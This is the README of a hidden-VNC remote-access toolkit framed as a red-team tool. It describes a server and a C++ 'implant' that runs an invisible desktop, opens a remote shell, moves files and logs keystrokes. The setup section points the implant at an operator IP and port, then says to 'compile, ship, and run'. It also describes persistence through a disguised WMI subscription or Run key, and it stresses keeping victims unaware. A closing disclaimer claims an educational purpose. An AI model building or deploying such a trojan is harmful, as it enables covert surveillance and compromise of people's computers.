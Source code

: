 # Headless VNC (HVNC) Toolkit

> A **stealth-first** remote-administration framework that spins up an invisible Windows desktop in memory and lets you drive it like a regular VNC session—only without the tell-tale screen flicker or user-side pop-ups.  
> Built for red-team operators who need *eyes-on-glass* access with the subtlety of a ghost.

---

## Repository Layout

| Path     | Role | Notes |
|----------|------|-------|
| **`server/`** | Server-side component | Accepts inbound HVNC tunnels, multiplexes sessions, prints each connection in its own console |
| **`client/`** | Client implant | Creates the hidden desktop, hooks keyboard / mouse, relays frames & input events |

> ⚠️ *Every new connection opens in a **separate console window***—handy for parallel ops and clean log separation.

---

## Supported Commands

| Constant | Action |
|----------|--------|
| `CMD_START_EXPLORER`     | Launch **Windows Explorer** explorer.exe |
| `CMD_START_RUN`          | Open the classic **Run / cmd prompt** cmd.exe |
| `CMD_START_CHROME`       | Launch **Google Chrome** |
| `CMD_START_EDGE`         | Launch **Microsoft Edge** |
| `CMD_START_BRAVE`        | Launch **Brave** |
| `CMD_START_FIREFOX`      | Launch **Mozilla Firefox** |
| `CMD_START_IEXPL`        | Launch **Internet Explorer** |
| `CMD_START_POWERSHELL`   | Open **PowerShell** |
| `CMD_SHELL_OPEN`         | Begin an **interactive remote shell** |
| `CMD_SHELL_COMMAND`      | Send a command to a shell already open |
| `CMD_FILE_LIST`          | Enumerate **files / folders** in a directory |
| `CMD_FILE_DOWNLOAD`      | **Download** a file from the remote box |
| `CMD_FILE_UPLOAD`        | **Upload** a file to the remote box |
| `CMD_KEYLOGGER_START`    | Start keylogging |
| `CMD_KEYLOGGER_STOP`     | Stop keylogging |

---

## Getting Started

1. **Server**

   ```
   cd server
   python server.py
   The script will prompt for a listening port  use the same port as the client build.
   ```

2. **Client**

   *Edit* `client/main.cpp` – set:

   ```cpp
   constexpr auto HOST = "YOUR_SERVER_IP";
   constexpr uint16_t PORT = 4444;  // same as the server prompt
   ```

   Then compile, ship, and run.
   On first launch, the implant copies itself to:

   ```
   %LOCALAPPDATA%\Microsoft\Win32Components\
   ```

   and auto-starts at logon:

   * Admin → WMI subscription
   * Standard user → Run registry key

---

## Testing & Cleanup

Need a sterile host after the demo? Use the included PowerShell helper:

```
Remove artifacts, folders, autoruns
client\clean.ps1
```

### Manual WMI Check / Removal

```
Get-WmiObject -Namespace root\subscription -Class __EventFilter `
  -Filter "Name='Microsoft_Win32Filter'" | ForEach-Object { $_.Delete() }

Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer `
  -Filter "Name='Microsoft_Win32Consumer'" | ForEach-Object { $_.Delete() }

Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding `
  | Where-Object { $_.Consumer -match 'Microsoft_Win32Consumer' } `
  | ForEach-Object { $_.Delete() }
```

Verify all gone:

```
Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding `
  | Where-Object { $_.Consumer -match 'Microsoft_Win32Consumer' } `
  | Format-List Filter, Consumer
```

---

## Why HVNC?

Traditional VNC mirrors the users active desktop—any mouse wiggle or window pop-up is visible. Headless VNC instead:

1. Creates a brand new, invisible desktop WinSta0\HVNC in memory.
2. Runs spawned processes inside that hidden session completely off-screen.
3. Streams the pixels or GDI diffs back to the operator with negligible latency.
4. Leaves the real user blissfully unaware—no taskbar flashes, no window focus steals.

In short: you get a **full UI foothold** with the stealth of a backdoor shell.

---

## OPSEC Highlights

* **Console-per-session** → easy kill-switch & minimal cross-noise.
* **Auto-persistence** adapts to privilege level WMI vs. registry.
* **Keylogger** runs in-process no DLL drop on disk.
* **WMI cleanup script** shipped for safe red-team eject.

Yes, theres more on the roadmap: TLS tunneling, clipboard sync, multi-monitor capture watch the commits!

---

## 🚫 Disclaimer

This repository is provided for **educational purposes only** and intended for **authorized security research**.
Any **unauthorized use**—including but not limited to illicit surveillance, system compromise, or privacy invasion—is **strictly prohibited**.


